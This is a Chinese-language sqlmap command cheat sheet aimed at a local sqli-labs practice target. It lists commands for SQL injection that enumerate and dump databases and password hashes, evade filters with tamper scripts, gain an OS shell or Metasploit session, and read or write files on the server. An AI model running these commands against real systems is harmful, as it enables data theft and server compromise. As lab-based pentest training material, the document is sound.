  已在虚拟机搭建sqlilabs，

地址为http://192.168.137.128/pentest/sqlilabs/Less-1/

## Sqlmap的简单用法

```python
sqlmap -r http.txt  #http.txt是我们抓取的http的请求包
sqlmap -r http.txt -p username  #指定参数，当有多个参数而你又知道username参数存在SQL漏洞，你就可以使用-p指定参数进行探测
sqlmap -u "http://www.xx.com/username/admin*"       #如果我们已经知道admin这里是注入点的话，可以在其后面加个*来让sqlmap对其注入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   #探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"   #当该网站需要登录时，探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users      #查看数据库的所有用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords  #查看数据库用户名的密码
有时候使用 --passwords 不能获取到密码，则可以试下
-D mysql -T user -C host,user,password --dump  当MySQL< 5.7时
-D mysql -T user -C host,user,authentication_string --dump  当MySQL>= 5.7时
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba    #判断当前用户是否有管理员权限
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles     #列出数据库所有管理员角色，仅适用于oracle数据库的时候

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --dbs        #爆出所有的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --tables     #爆出所有的数据表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --columns    #爆出数据库中所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --current-db #查看当前的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns #爆出security数据库中users表中的所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100  #爆出数据库security中的users表中的username列中的前100条数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --tamper=space2comment.py  #指定脚本进行过滤，用/**/代替空格
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别。当level=2时，会测试cookie注入。当level=3时，会测试user-agent/referer注入。
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --sql-shell  #执行指定的sql语句
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-shell/--os-cmd   #执行--os-shell命令，获取目标服务器权限
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-pwn   #执行--os-pwn命令，将目标权限弹到MSF上

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-write  test.txt  --file-dest "e:/hack.txt"  #将本地的test.txt文件上传到目标服务器的E盘下，并且名字为hack.txt

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --dbms="MySQL"     #指定其数据库为mysql 
其他数据库：Altibase,Apache Derby, CrateDB, Cubrid, Firebird, FrontBase, H2, HSQLDB, IBM DB2, Informix, InterSystems Cache, Mckoi, Microsoft Access, Microsoft SQL Server, MimerSQL, MonetDB, MySQL, Oracle, PostgreSQL, Presto, SAP MaxDB, SQLite, Sybase, Vertica, eXtremeDB
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --random-agent   #使用任意的User-Agent爆破
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --proxy="http://127.0.0.1:8080"    #指定代理
当爆破HTTPS网站会出现超时的话，可以使用参数 --delay=3 --force-ssl
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --technique T    #指定时间延迟注入，这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式，当然，我们也可以直接手工指定。
支持的探测方式如下：
　　B: Boolean-based blind SQL injection（布尔型注入）
　　E: Error-based SQL injection（报错型注入）
　　U: UNION query SQL injection（可联合查询注入）
```